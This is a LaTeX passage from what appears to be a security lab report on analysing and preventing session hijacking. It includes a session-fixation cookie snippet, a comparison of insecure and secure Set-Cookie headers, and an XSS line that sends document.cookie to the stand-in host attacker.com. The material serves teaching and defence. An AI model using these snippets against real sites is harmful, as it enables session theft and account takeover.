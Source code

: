 \documentclass[12pt]{article}
\begin{document}
\textbf{Lessons Learned:}
\begin{itemize}
    \item Critical areas of user vulnerability
    \item Effectiveness of current security training
    \item Gaps in security awareness
    \item Recommendations for improvement
\end{itemize}


\subsection*{Task 6: Session Hijacking Analysis and Prevention}
\textbf{Objective:} 
To demonstrate and analyze session hijacking vulnerabilities and implement robust countermeasures.

\textbf{Tools Used:}
\begin{itemize}
    \item Primary Tool: Burp Suite Professional
    \item Supporting Tools:
    \begin{itemize}
        \item Wireshark for packet analysis
        \item Browser Developer Tools
        \item Custom session testing scripts
    \end{itemize}
\end{itemize}

\textbf{Attack Vectors Analyzed:}
\begin{enumerate}
    \item \textbf{Session Fixation}
    \begin{lstlisting}[language=JavaScript]
    // Attacker forcing a known session ID
    document.cookie = "PHPSESSID=abc123xyz456";
    location.reload();
    \end{lstlisting}

    \item \textbf{Session Sniffing}
    \begin{lstlisting}[language=Python]
    # Example of vulnerable cookie transmission
    Set-Cookie: sessionId=abc123; path=/
    # Versus secure implementation
    Set-Cookie: sessionId=abc123; path=/; HttpOnly; Secure; SameSite=Strict
    \end{lstlisting}

    \item \textbf{Cross-Site Script (XSS) Based Hijacking}
    \begin{lstlisting}[language=JavaScript]
    // Malicious script attempting to steal cookies
    new Image().src = "http://attacker.com/steal?cookie=" + document.cookie;
    \end{lstlisting}
\end{enumerate}
\end{document}
